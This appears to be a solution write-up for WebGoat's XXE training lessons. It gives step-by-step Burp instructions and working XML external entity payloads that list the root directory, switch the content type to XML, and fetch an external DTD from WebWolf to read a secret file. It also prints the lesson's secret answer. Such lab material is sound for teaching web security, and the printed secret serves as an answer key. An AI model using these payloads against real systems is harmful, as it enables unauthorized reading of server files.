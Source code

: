 # XEE - xml external entities

# Task 4

In this assignment you will add a comment to the photo, when submitting the form try to execute an XXE injection with the comments field. Try listing the root directory of the filesystem.

## Solution

1. Catch the response in burp. POST /WebGoat/xxe/simple HTTP/1.1
2. Change body of exml request to form down below

### On Windows

```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/">]>
<comment><text>&xxe;</text></comment>
```

### On Linux or macOS

```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///">]>
<comment><text>&xxe;</text></comment>
```

# Task 7

1. Add comment and intercept POST request with burp.
2. Send to repeater.
3. Change application type header from application/json to applicatiom/xml.
4. Chnage body of request from submitted comment to :

```
<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>
```

5. Send, done.

# Task 11

1. Go to webwolf and upload file attack.dtd with content

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY secret SYSTEM 'file:///home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>
```

2. Content of above file could be different based on user ( file://... part... check exercise content to get path)
3. After upload get location of this file in webwolf

```
http://localhost:9090/files/{user_name}/{filename}

```

so

```
http://localhost:9090/files/admin123/attack.dtd

```

4. After that make commment catch POST request and change body to :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [

<!ENTITY % dtd SYSTEM "http://localhost:9090/files/admin123/attack.dtd" >
%dtd;]>
<comment>
<text>our secret &secret;</text>
</comment>
```

5. should receive 200 response
6. Stop intercepting, then go to Webgoat
7. new comment should display comment comment comment .

```
comment comment comment WebGoat 8.0 rocks... (IdsWScAJJD)
```

then copy

```
WebGoat 8.0 rocks... (IdsWScAJJD)
```

add as comment and done
